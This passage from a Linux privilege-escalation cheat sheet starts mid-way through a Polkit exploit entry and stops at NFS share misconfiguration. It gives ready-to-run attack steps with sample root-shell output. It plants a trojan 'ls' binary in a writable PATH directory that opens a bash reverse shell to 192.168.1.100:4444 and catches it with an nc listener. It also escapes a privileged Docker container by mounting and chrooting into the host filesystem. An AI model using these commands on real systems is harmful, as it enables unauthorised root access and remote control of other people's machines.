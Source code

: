       cd Polkit-exploit
      ./exploit.sh
      ```
      **Example Output**:
      ```
      [+] Root shell obtained
      # whoami
      root
      ```
    - **Purpose**: Gain root privileges via kernel vulnerabilities.
- **Writable PATH Exploitation**:
  - **Technique**: Exploit writable directories in the root user’s PATH.
  - **Execution**: Check PATH and permissions.
    ```bash
    echo $PATH
    ls -ld /tmp
    ```
    **Example Output**:
    ```
    /usr/bin:/tmp
    drwxrwxrwt 10 root root /tmp
    ```
    - Create a malicious binary:
      ```bash
      echo -e '#!/bin/bash\nbash -i >& /dev/tcp/192.168.1.100/4444 0>&1' > /tmp/ls
      chmod +x /tmp/ls
      ```
      **Example Output**: Reverse shell connects when root runs `ls`.
      ```
      nc -lvp 4444
      # whoami
      root
      ```
    - **Purpose**: Gain root access via command execution.
- **Docker Breakout**:
  - **Technique**: Escape a Docker container with misconfigured privileges (e.g., `--privileged` mode).
  - **Execution**: Check if running in a Docker container.
    ```bash
    cat /proc/1/cgroup
    ```
    **Example Output**:
    ```
    2:cpu,cpuacct:/docker/1234567890abcdef
    ```
    - Mount the host filesystem:
      ```bash
      docker run --rm -it --privileged -v /:/mnt ubuntu bash
      chroot /mnt
      ```
      **Example Output**:
      ```
      # whoami
      root
      ```
    - **Purpose**: Gain root access to the host system.
- **Misconfigured NFS Shares**:
  - **Technique**: Exploit NFS shares with `no_root_squash` to gain root access.
  - **Execution**: Check NFS exports.